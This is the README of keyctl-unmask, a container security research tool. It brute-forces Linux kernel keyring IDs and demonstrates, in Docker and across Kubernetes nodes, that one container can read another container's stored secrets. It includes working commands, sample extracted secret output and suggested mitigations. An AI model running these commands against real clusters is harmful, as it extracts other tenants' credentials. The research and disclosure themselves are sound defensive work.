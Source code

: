 <div align="center">

![fuck-florida](/example/keymask.png)

</div>

# Keyctl-unmask

This tool goes Florida on container keyring masks. It is a tool to demonstrate the ineffectivity that containers have on isolating Linux Kernel keyrings. 

See also 

* [antitree/keyctl-unmask](https://hub.docker.com/repository/docker/antitree/keyctl-unmask) on Dockerhub
* [Blog post](https://www.antitree.com/2020/07/keyctl-unmask-going-florida-on-the-state-of-containerizing-linux-keyrings/) explaining more about the issue


## Usage 

From within a container simply running `keyctl-unmask` will run like this:

![docker demo](/example/docker_demo.gif)

~~~bash
Search for Linux kernel keyrings even if /proc/keys are masked in a container
Usage: 

        keyctl-unmask -min 0 -max 999999999 

        keyctl-unmask -hunt

        keyctl-unmask -d

  -d    Log everything to stdout (cloud logging not supported)
  -hunt
        Enable brute force mode to search for key ids (default true)
  -key int
        Specific key ID to test (int32)
  -max int
        Max key id range (default 999999999)
  -min int
        Minimum key id range (default 1)
  -output string
        Output path (default "./keyctl_ids")
  -q    Quiet mode to disable logging and progress bar

~~~

## Example in Docker

In one container, create a new key representing a secret stored by a container:

~~~shell
docker run --name secret-server -it --security-opt \
    seccomp=unconfined antitree/keyctl-unmask /bin/bash 

> keyctl add user antitrees_secret thetruthisiliketrees @s
911117332
> keyctl show
Session Keyring
 899321446 --alswrv      0     0  keyring: _ses.95f119ce25274b852fc62369089dcb4fbe15678e62eecfdc685d292e6a01f852
 911117332 --alswrv      0     0   \_ user: antitrees_secret
~~~

Start a separate container and attach a shell so we can test some things

~~~shell
docker run -it --name keyctl-attacker --security-opt seccomp=unconfined antitree/keyctl-unmask /bin/bash
root@keyctl-attacker:/# keyctl-unmask -min 0 -max 999999999
10 / 10 [----------------------------------------------------------------------------] 100.00% ? p/s 0s
Output saved to:  ./keyctl_ids
root@keyctl-attacker:/# cat keyctl_ids 
~~~

~~~json
{
 "KeyId": 899321446,
 "Valid": true,
 "Name": "_ses.95f119ce25274b852fc62369089dcb4fbe15678e62eecfdc685d292e6a01f852",
 "Type": "keyring",
 "Uid": "0",
 "Gid": "0",
 "Perms": "3f1b0000",
 "String_Content": "\u0014\ufffdN6",
 "Byte_Content": "FIxONg==",
 "Comments": null,
 "Subkeys": [
  {
   "KeyId": 911117332,
   "Valid": true,
   "Name": "antitrees_secret",
   "Type": "user",
   "Uid": "0",
   "Gid": "0",
   "Perms": "3f010000",
   "String_Content": "thetruthisiliketrees",
   "Byte_Content": "dGhldHJ1dGhpc2lsaWtldHJlZXM=",
   "Comments": null,
   "Subkeys": null
  }
 ]
~~~


## Usage In Kubernetes

Most Kubernetes clusters have the "benefit" of running without seccomp enabled so
you can it like so:

```shell
kubectl run --rm -i \
      -t keyctl-unmask --image=keyctl-unmask \
      --image-pull-policy=Never --restart=Never \
      -- keyctl-unmask -hunt  
```

### Kubernetes One Off Pod With Progress Bar

The following one liner will start a hunt into the kubernetes cluster and 
return the results with the progress bar in a clean way. 

~~~shell
kubectl run whatever --rm -it --generator=Pod --image-pull-policy=Never \
      --restart=Never --image=antitree/keyctl-unmask \
      --overrides="$(cat example/k8s/keyctl-unmask-run.json)"
~~~

## Kubernetes All Nodes

Deploying as a Job will run this on each node in the cluster to let you figure out 
if any cluster has interesting things within each Node. This creates a PVC to store
the results of trying to extract each Node's keyrings. 

```bash
keyctl apply -f examples/k8s/keyctl-unmask-job.yaml
```

Attach to the debug Pod to read the results:

```bash
kubectl exec -it -n test keyctl-unmask-debug-pod -- /bin/bash
> cat /keyctl-output/$NODE_NAME
{
 "KeyId": 899321446,
 "Valid": true,
 "Name": "_ses.95f119ce25274b852fc62369089dcb4fbe15678e62eecfdc685d292e6a01f852",
 "Type": "keyring",
...
```


## Pre-Emptive Responses To Potential Questions/Comments

**What's you're deal with Florida?**
IDK, just not feeling like a fan lately. Wear a fucking mask. 

**Yeah but the Docker seccomp profile takes care of this.**

First, yes seccomp-bpf is a powerful tool and we should all use it for our containers but in the case of Docker, it's considered
a nice-to-have (not to mention difficult to use at scale). Because it's not a primary security control, and because there's no way 
to validate whether a seccomp profile is effective at runtime (see my other talks), we can't rely on it. It's a bolt on fix for the
real issue. 

**We should just enable user namespacing and this would be solved**

If you say that all you have to do is enable user namespacing, I'd say "You're right!" and "No one does" and "It's not the default for Docker"
Lets not say that user namespacing is a solution when enabling it breaks so many other things. 

**Everyone knows about this issue, this isn't new**

That this isn't new is mostly true in that it's been discussed since 2014 but it's been considered generally fixed since 
we added masks to `/proc/keys` and fixed it via seccomp. 

**No one uses keyrings**

That seems to be true for many things but I think it's interesting that the technology is completely incompatible with
containers in that every container can access any other container's keyrings including the hosts. 

**Fine well what do you want someone to do about it?**

1. Ensure that your container runtimes have support for namespaced keyrings: [It's possible](https://lwn.net/Articles/779895/), if anyone cares.
2. Make some of the protections that seccomp provides like blocking `KEYCTL` syscalls completely a compiled in security control .
3. Make seccomp usable in our runtimes. (See separate rant)

## Known Issues

* In minikube (and likely other non-standard linux OS's) the `get_persistent` keyctl SYSCALL isn't supported. From minikube host for example: `keyctl get_persistent @s -1`
